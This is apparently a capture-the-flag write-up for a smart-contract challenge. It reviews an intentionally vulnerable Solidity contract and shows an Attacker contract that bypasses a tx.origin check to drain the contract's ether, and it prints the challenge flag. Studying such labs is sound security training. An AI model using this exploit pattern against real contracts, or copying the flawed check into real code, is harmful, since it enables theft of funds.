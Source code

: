 # Distract and Destroy

### CHALLENGE DESCRIPTION
**_After defeating her first monster, Alex stood frozen, staring up at another massive, hulking creature that loomed over her. She knew that this was a fight she couldn't win on her own. She turned to her guildmates, trying to come up with a plan. "We need to distract it," Alex said. "If we can get it off balance, we might be able to take it down." Her guildmates nodded, their eyes narrowed in determination. They quickly came up with a plan to lure the monster away from their position, using a combination of noise and movement to distract it. As they put their plan into action, Alex drew her sword and waited for her chance._**

## Solution

**STEP 1: Code reviewing**

There we have 2 Solidity files similar to `Survival of the Fittest` codes:

>**`Setup.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }

    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

>**`Creature.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 1000;
    }

    function attack(uint256 _damage) external {
        if (aggro == address(0)) {
            aggro = msg.sender;
        }

        if (_isOffBalance() && aggro != msg.sender) {
            lifePoints -= _damage;
        } else {
            lifePoints -= 0;
        }
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _isOffBalance() private view returns (bool) {
        return tx.origin != msg.sender;
    }
}
```

Here you can see some differences from the `Survival of the Fittest` files, such as `_isOffBalance()` and `aggro`. To kill the enemy, we need to bypass these conditions.


**STEP 2: The Bypass**

Take a look to the `_isOffBalance()` function

```
function _isOffBalance() private view returns (bool) {
    return tx.origin != msg.sender;
}
```

Let`s deploy a contract to avoid this.

>**`Creature.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface ICreature {
    function attack(uint256 _damage) external;
}

contract Attacker {
    ICreature target;

    constructor(address _target) {
        target = ICreature(_target);
    }

    function attack(uint256 _damage) external {
        target.attack(_damage);
    }
}
```

We need to deploy it to distract enemy.

Deploying via `forge`:

![image](https://github.com/luvranse/web3/assets/46570641/30965871-2205-41cb-8e07-8e7bee8417da)


**STEP 3: The Battle**

Initiate an attack via `cast` with one of our contracts. Distract the enemy.

![image](https://github.com/luvranse/web3/assets/46570641/d417621b-9c19-48eb-a161-216f52c0b59b)

Then attack with another one. 

![image](https://github.com/luvranse/web3/assets/46570641/cfe7d15c-dd96-4e7c-a96d-454a2bac6854)

Let's try take a loot. 

![image](https://github.com/luvranse/web3/assets/46570641/f551402d-c47d-4b4d-87f2-c440b85f9b50)

Congratz! There is the flag!

![image](https://github.com/luvranse/web3/assets/46570641/f895087e-50f5-404e-bd6b-5cf0580cf372)

### FLAG

```
HTB{tx.0r1gin_c4n_74k3_d0wn_4_m0n5732}
```

